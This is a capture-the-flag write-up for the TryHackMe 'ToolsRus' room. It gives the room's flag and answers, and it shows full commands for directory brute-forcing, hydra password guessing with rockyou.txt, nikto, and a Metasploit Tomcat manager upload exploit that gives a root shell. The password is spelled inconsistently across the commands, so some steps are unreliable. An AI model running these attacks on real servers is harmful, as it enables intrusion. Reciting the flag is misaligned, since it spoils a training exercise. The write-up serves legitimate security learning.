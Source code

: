 ```yaml
---
layout: post
title: Write-Up [THM] ToolsRus
categories: [Write-Ups]
tags: [TryHackMe, Web, dirbuster, nikto, metasploit, hydra]
featured-image:  thm/toolsRus/theme.png
featured-image-alt: ToolsRus
---
```


It's a write-up about the room : [Try Hack Me - Room : ToolsRus](https://tryhackme.com/room/toolsRus)

# [Task 1] ToysRus

![Task 1](/assets/img/thm/toolsRus/task-1.png)


First, we deploy the machine.

* What directory can you find, that begins with a "g"?

We use `Dirbuster` with : 

```
Target Url : http://ip_machine:80/
File with lists of dirs/files : directory-list-2.3-medium.txt
Dir to start with : /
File extension : php
```

The directory that begins with a "g" is **guidelines**.

* Whose name can you find from this directory?

Go to : `http://ip_machine/guidelines` and find the message : 

```
Hey bob, did you update that TomCat server? 
```   

Therefore the name is **bob**.

* What directory has basic authentication?

With dirbuster, we find the directory **protected** which needs basic authentication.

* What is bob's password to the protected part of the website?

We use `hydra` in a terminal : `hydra -l bob -P rockyou.txt -f ip_machine http-get /protected/`  
We find **bubbles** as password.

* What other port that serves a webs service is open on the machine?

We use nmap to see all the ports : ` nmap -sV ip_machine`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The other port that serves a webs service which is open is the port **1234**.

* Going to the service running on that port, what is the name and version of the software?

Go on `http://ip_machine:1234/`.  
On that page we find the name and the version of the software : **Apache Tomcat/7.0.88**.

* Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many documentation files did Nikto identify?

Go on `http://ip_machine:1234/manager/html` with the credentials :

```
login : bob
password : bubble
```

We could also use : `nikto -h http://ip_machine:1234/manager/html -id bob:bublles`.
We find **5** documentation files.


* What is the server version (run the scan against port 80)?

With nmap, we find the server version **Apache/2.4.18** for the port 80.

* What version of Apache-Coyote is this service using? 

With nmap also, we find the service version of Apache-Coyote which is **1.1**.

* Use Metasploit to exploit the service and get a shell on the system. What user did you get a shell as?

To launch metasploit on the console : `msfconsole`.  
After we use this different command : 

```
search tomcat  
use multi/http/tomcat_mgr_upload
show options
set httpPassword bubbles
set httpUsername bob
set RHOSTS ip_machine
SET RPORT 1234
run
```

Then , we can use the shell by typing `shell`.
To see what user we are, we use `whoami`.   
The output is **root**. 

* What text is in the file /root/flag.txt ?

We use cat to see the flag : `cat /root/flag.txt`.  
The flag is **ff1fc4a81affcc7688cf89ae7dc6e0e1**.